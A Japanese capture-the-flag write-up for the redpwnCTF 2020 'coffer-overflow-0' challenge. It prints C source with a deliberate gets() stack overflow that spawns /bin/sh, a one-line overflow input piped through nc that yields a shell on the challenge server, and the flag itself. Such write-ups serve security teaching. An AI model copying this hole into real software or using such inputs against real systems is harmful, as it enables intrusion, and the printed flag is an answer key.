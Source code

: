 # # <!--XXXXXXXXXX-->
Can you fill up the coffers? We even managed to find the source for you.  
nc 2020.redpwnc.tf 31199  
[coffer-overflow-0](coffer-overflow-0)　　　　[coffer-overflow-0.c](coffer-overflow-0.c)  

# Solution
coffer-overflow-0とソースが与えられる。  
ソースは以下のようになっている。  
```c:coffer-overflow-0.c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```
codeの中身を書き換えればいいようだ。  
nameをオーバーフローさせればよいことがすぐにわかる。  
スタックの配置など考えなくてもよいので適当に文字を増やしながら入力すると以下でシェルが得られた。  
lsしてflag.txtをcatする。  
```bash
$ (echo AAAAAAAAAAAAAAAAAAAAAAAAA; cat) | nc 2020.redpwnc.tf 31199
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```

## flag{b0ffer_0verf10w_3asy_as_123}